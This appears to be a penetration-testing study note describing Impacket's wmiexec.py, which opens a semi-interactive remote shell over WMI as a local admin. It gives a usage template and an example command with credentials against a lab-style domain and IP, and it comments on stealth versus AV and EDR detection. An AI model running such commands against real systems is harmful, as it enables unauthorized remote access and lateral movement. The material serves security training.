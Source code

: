 -- -
Drops a semi-interactive shell through the `Windows Management Instrumentation`. Commands will be run as a local admin user which may be stealthier than methods such as psexec, but will still likely be caught by AV and EDR systems. Will also not produce a file artifact such as psexec.
#### Basic Usage (auth)
```bash
wmiexec.py <domain>/<user>:'<passwd>'@<target ip>
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

^2a6f1f
